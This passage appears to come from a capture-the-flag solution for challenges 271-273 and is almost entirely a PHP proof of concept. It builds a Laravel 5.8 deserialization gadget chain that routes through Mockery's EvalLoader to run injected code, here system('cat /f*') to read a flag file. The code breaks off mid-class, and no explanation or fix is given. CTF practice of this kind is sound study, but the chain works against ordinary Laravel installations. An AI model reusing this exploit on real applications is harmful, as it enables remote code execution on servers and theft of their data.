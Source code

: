 # 271-273(Laravel5.8 反序列化漏洞)
poc:
```php
<?php
namespace Illuminate\Broadcasting{

    use Illuminate\Bus\Dispatcher;
    use Illuminate\Foundation\Console\QueuedCommand;

    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct(){
            $this->events=new Dispatcher();
            $this->event=new QueuedCommand();
        }
    }
}
namespace Illuminate\Foundation\Console{

    use Mockery\Generator\MockDefinition;

    class QueuedCommand
    {
        public $connection;
        public function __construct(){
            $this->connection=new MockDefinition();
        }
    }
}
namespace Illuminate\Bus{

    use Mockery\Loader\EvalLoader;

    class Dispatcher
    {
        protected $queueResolver;
        public function __construct(){
            $this->queueResolver=[new EvalLoader(),'load'];
        }
    }
}
namespace Mockery\Loader{
    class EvalLoader
    {

    }
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;
        public function __construct()
        {
            $this->code="<?php system('cat /f*');?>"; //此处是PHP代码
            $this->config=new MockConfiguration();
        }
    }
    class MockConfiguration
    {
```